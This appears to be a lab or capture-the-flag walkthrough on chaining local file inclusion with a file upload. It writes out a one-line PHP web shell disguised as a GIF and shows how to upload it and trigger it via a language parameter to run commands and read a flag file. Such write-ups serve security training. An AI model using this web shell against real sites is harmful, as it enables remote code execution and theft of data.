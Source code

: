 # LFI and File Uploads

#### Use any of the techniques covered in this section to gain RCE and read the flag at /

**Step 1** - Create a Malicious Image:

* Create a malicious GIF file:
  * ```bash
    echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
    ```

**Step 2** - Upload the file to the application:

* Access Profile Settings to upload the file:

<figure><img src="../../../.gitbook/assets/image (275).png" alt=""><figcaption></figcaption></figure>

* Check the file path to edit the URL:

<figure><img src="../../../.gitbook/assets/image (277).png" alt=""><figcaption></figcaption></figure>

**Step 3** - Access the web shell:

* Go to languages and paste the image path like shown bellow:
  * Image path with id command `./profile_images/shell.gif&cmd=id`

<figure><img src="../../../.gitbook/assets/image (278).png" alt=""><figcaption></figcaption></figure>

**Step 4** - Get the flag:

* Look for the flag wih `./profile_images/shell.gif&cmd=cat ../../../2f40d853e2d4768d87da1c81772bae0a.txt`:

<figure><img src="../../../.gitbook/assets/image (279).png" alt=""><figcaption></figcaption></figure>

And we got the flag!
